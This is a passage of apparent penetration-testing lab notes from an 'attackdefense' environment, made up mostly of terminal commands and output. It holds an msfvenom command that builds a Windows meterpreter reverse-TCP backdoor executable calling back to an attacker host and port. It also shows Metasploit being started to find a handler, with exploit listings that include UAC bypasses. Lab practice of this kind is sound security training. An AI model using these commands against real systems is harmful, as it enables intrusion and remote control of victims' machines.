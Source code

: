 ```

Access is denied.

C:\Windows\system32>^C
Terminate channel 1? [y/N]  y
```

[[msfvenom]]

```
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.19.3 LPORT=1234 -f exe -o backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: backdoor.exe
root@attackdefense:~# ls
Desktop  backdoor.exe  thinclient_drives
```

[[metasploit]] # to start the multi/handler to listen for the backdoor connection

```
root@attackdefense:~# msfconsole
       =[ metasploit v6.0.21-dev                          ]
+ -- --=[ 2087 exploits - 1126 auxiliary - 354 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try 
globally setting it with setg RHOSTS x.x.x.x

msf6 > search type:exploit name:handler

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/freebsd/misc/citrix_netscaler_soap_bof              2014-09-22       normal     Yes    Citrix NetScaler SOAP Handler Remote Code Execution
   1  exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc  2015-12-18       excellent  Yes    blueman set_dhcp_handler D-Bus Privilege Escalation
   2  exploit/multi/handler                                                        manual     No     Generic Payload Handler
   3  exploit/windows/browser/ms05_054_onload                     2005-11-21       normal     No     MS05-054 Microsoft Internet Explorer JavaScript OnLoad Handler Remote Code Execution
   4  exploit/windows/browser/notes_handler_cmdinject             2012-06-18       excellent  No     IBM Lotus Notes Client URL Handler Command Injection
   5  exploit/windows/local/bypassuac_comhijack                   1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   6  exploit/windows/local/bypassuac_sluihijack                  2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack)


Interact with a module by name or index. For example info 6, use 6 or use exploit/windows/local/bypassuac_sluihijack

msf6 > use 3
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/browser/ms05_054_onload) > back
```